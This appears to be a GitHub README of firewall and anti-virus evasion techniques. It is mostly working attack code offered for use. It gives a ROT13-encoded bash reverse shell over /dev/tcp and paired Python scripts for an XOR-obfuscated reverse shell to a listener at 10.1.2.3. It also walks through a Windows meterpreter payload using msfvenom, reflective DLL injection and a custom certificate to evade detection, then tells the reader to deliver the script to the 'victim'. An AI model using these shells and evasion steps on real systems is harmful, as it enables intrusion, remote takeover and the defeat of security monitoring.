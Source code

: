 # evasion
Techniques for evading firewalls and anti-malware detection.

Acronyms used:
* UTM - Unified Threat Management.  A class of nextgen firewalls with integrated security features.
* IDS - Intrusion Detection System.  A device that detects malicious network traffic.
* IPS - Intrusion Prevention System.  A device that detects and blocks malicious network traffic.
* A/V - Anti-Virus, Anti-Malware, etc.

## ROT13 encoded reverse shell using bash TCP device

This technique is useful for getting a Linux reverse shell through a UTM firewall, IDS or IPS.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />

[ linux command ]<br />
`IFS=''; (while read -r lin; do echo $lin | tr 'A-Za-z' 'N-ZA-Mn-za-m'; done) | nc -nlvp 4444 | tr 'A-Za-z' 'N-ZA-Mn-za-m'`<br />

( victim )<br />

[ linux command ]<br />
`exec 5<>/dev/tcp/10.1.2.3/4444; /bin/bash 2>&1 <(while read -r lin; do echo $(echo $lin | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m'); done <&5) | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m' >&5; exec 5<&-`<br />

## XOR obfuscated reverse shell using python

This technique is useful for getting a reverse shell through a UTM firewall, IDS or IPS on a system supporting Python.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />

[ python script ]<br />
```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 4444))
s.listen(2)
print "Listening... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip
while True:
  command = raw_input('~$ ')
  encode = bytearray(command)
  for i in range(len(encode)):
    encode[i] ^=0x5A
  client.send(encode)
  en_data=client.recv(2048)
  decode = bytearray(en_data)
  for i in range(len(decode)):
    decode[i] ^=0x5A
  print decode
client.close()
s.close()
```

( victim )<br />

[ python script ]<br />
```python
import socket,subprocess,sys
RHOST = "10.1.2.3"
RPORT = 4444
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
while True:
  data = s.recv(1024)
  en_data = bytearray(data)
  for i in range(len(en_data)):
    en_data[i] ^=0x5A
  comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
  STDOUT, STDERR = comm.communicate()
  en_STDOUT = bytearray(STDOUT)
  for i in range(len(en_STDOUT)):
    en_STDOUT[i] ^=0x5A
  s.send(en_STDOUT)
s.close()
```

## Circumventing A/V on Windows to get meterpreter reverse shell

This technique is useful for getting a reverse shell on Windows where endpoint A/V protection is in place that blocks malicious DLLs and blocks malicious network connections such as the default meterpreter reverse_https SSL server certificate.

In this example the attacking host is Kali on IP address 10.1.2.3 and listens on port 443 for the reverse shell from the victim.  Powershell reflection will be used on the Windows victim to execute the meterpreter DLL.  The receiving Kali host will use metasploit multi-handler with a custom SSL certificate to accept the reverse HTTPS connection.

( attacker )<br />

First create your custom SSL certificate and private key.  The properties (e.g. Subject) used by the default certificate for reverse_https in metasploit that are sent during the SERVER HELLO phase may trigger host-based IDS/IPS so you will need to replace it with a certificate that has different Subject attributes.  Execute the following two commands to generate a replacement certificate.  This example assumes the output file msf.pem will be place into root's home folder.

`openssl req -new -newkey rsa:2048 -days 365 -nodes -x509 -subj "/C=US/ST=NY/L=Ithaca/O=Insanity/CN=pwned.you.org" -keyout msf.key -out msf.crt`<br />
`cat msf.key msf.crt > msf.pem`<br />

Generate the meterpreter DLL as a base64 blob that you will paste into the powershell script which will be executed on the Windows victim.

[ 32-bit meterpreter payload ]<br />
`msfvenom -a x86 -p windows/meterpreter/reverse_https LHOST=10.1.2.3 LPORT=443 -f dll | base64 -w 0`<br />
[ 64-bit meterpreter payload ]<br />
`msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=10.1.2.3 LPORT=443 -f dll | base64 -w 0`<br />

Create a powershell script called msf.ps1 that will be executed on the victim.  The powershell script will incorporate code developed by PowerShell Mafia to handle the reflective DLL injection.  The URL for the reflection code is here:

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

The msf.ps1 script should be constructed as follows:

`$b64_meterpreter_dll = '<paste base64 for DLL here>'`<br />
`$bytes = [Convert]::FromBase64String($b64_meterpreter_dll)`<br />
`<paste PowerShell Mafia code here>`<br />
`Invoke-ReflectivePEInjection -PEBytes $bytes -Verbose`<br />

Launch metasploit and start the multi-handler listener to receive the meterpreter reverse HTTPS payload.  Be sure to use the appropriate architecture (x86 or x64):

`msfconsole -q`<br />
`use exploit/multi/handler`<br />
`set payload windows/x64/meterpreter/reverse_https`<br />
`set lhost 10.1.2.3`<br />
`set lport 443`<br />
`set HandlerSSLCert /root/msf.pem`<br />
`set StagerVerifySSLCert false`<br />
`run`<br />

( victim )<br />

Deliver the msf.ps1 script to the Windows victim and execute it.
